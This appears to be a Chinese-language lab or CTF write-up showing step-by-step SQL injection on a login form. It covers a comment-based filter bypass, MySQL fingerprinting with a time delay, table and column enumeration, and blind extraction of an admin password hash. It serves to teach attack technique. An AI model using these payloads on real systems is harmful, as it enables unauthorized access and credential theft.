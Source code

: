 #### 确认注入点是否存在

现在已有的信息为：username可能存在注入点,后台中存在admin用户，不存在user用户

```
username=user' or '1'='1  ===> 密码错误
username=user' union select '1 ===> 期望返回:密码错误, 实际返回500
```

以上输入以及返回信息说明存在注入点,但做了过滤

#### 绕过过滤

对于union，猜测可能过滤了union关键词，可能过滤了别的，考虑以下语句
`username=user'/**/union/**/select/**/'1 ===> 密码错误`

因此可能过滤的是空格

#### 确认数据库相关信息

* 数据库版本

```
username=adm'/**/'in   ===> 密码错误
username=admin'/**/union/**/select/**/benchmark(10000000,encode('hello','mom'));'                                        =>密码错误密码错误  时间延迟
```

以上输入通过字符串连接来判断数据库种类，确定是mysql，并且时间延迟更加确定了注入点存在。类似的判断方法还有很多。

```
//连接字符串
'a'+'b' = 'ab'  ===> SQL Server
'a'||'b' = 'ab' ===> Oracle,PostgreSQL
```

对于mysql版本没有研究，可以跑一下sqlmap

* 后台表名及数据

```
username='/**/or/**/exists/**/(select/**/1);'  ===>密码错误===>确定可以通过这种方式猜解数据

username=admin'/**/order/**/by/**/1;'  ===>密码错误
username=admin'/**/order/**/by/**/2;'  ===>500
===>确认sql语句只选择了一列，确认之前猜解的语句正确

username='/**/or/**/exists/**/(select/**/username,password/**/from/**/admin);'  ===>密码错误===>确认存在admin表，存在username,password字段

```

* 确认密码信息

`user'/**/union/**/select/**/password/**/from/**/admin/**/where/**/length(password)=32;' ===> 密码错误 ===> 确认密码长度为32位`

以上语句确认password字段为32位，猜测通过md5存储

`user'/**/union/**/select/**/password/**/from/**/admin/**/where/**/substring(password1,1)='f ===> 密码错误 ===> 确认密码第一位为f`
